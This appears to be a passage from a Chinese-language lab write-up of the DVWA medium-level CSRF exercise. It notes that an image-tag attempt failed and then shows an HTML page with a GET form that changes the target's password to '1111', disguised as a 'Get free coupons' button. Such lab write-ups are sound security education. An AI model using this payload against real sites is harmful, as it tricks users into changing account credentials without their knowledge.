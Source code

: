 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2014.png)

看來沒有效，失敗 😭，get img tag 的方式沒辦法用於不同域名的場景

### By GET Form

這邊是參考別人的 writeup，做一個 GET form 從惡意頁面跳轉到目標網域的頁面

為了方便觀察就不隱藏表單了

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by POST</title>
  <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
</head>
<body>
set password to: 1111

<form action="http://localhost:8086/vulnerabilities/csrf/" method="get">
  <input type="xhidden" name="password_new" value="1111"/>
  <input type="xhidden" name="password_conf" value="1111"/>
  <input type="hidden" name="Change" value="Change"/>
  <input type="submit" value="Get free coupons 💸💸💸"/>
</form>
</body>
</html>
```
